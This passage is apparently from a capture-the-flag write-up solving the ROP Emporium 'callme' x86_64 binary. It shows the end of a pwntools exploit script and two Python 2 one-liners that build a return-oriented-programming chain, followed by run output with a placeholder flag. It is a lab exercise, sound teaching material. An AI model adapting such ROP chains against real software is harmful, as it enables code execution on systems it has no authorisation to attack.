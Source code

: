 ```
# Start connection (LOCAL, REMOTE, or GDB)
p = start()

p.sendlineafter(b"> ", payload)
p.interactive()

# Close connection
p.close()
```

Running the exploit, I got the output:
```
$ python3 exploit.py

Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```

#### Python2 One-Line Exploit
```
python2 -c 'print "A"*40 + "\x3c\x09\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0" + "\x20\x07\x40\x00\x00\x00\x00\x00" + "\x3c\x09\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0" + "\x40\x07\x40\x00\x00\x00\x00\x00" + "\x3c\x09\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0" + "\xf0\x06\x40\x00\x00\x00\x00\x00"'
```

The first Python2 one-line exploit is absolutely monstrous, so I also wrote a slightly shorter one.

```
python2 -c 'pop_args="\x3c\x09\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0"; print "A"*40 + "".join([pop_args + func for func in ["\x20\x07\x40\x00\x00\x00\x00\x00", "\x40\x07\x40\x00\x00\x00\x00\x00", "\xf0\x06\x40\x00\x00\x00\x00\x00"]])'
```

Running either of the commands, I got the output:
```
$ python2 -c 'pop_args="\x3c\x09\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0"; print "A"*40 + "".join([pop_args + func for func in ["\x20\x07\x40\x00\x00\x00\x00\x00", "\x40\x07\x40\x00\x00\x00\x00\x00", "\xf0\x06\x40\x00\x00\x00\x00\x00"]])'

callme by ROP Emporium
x86_64

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```
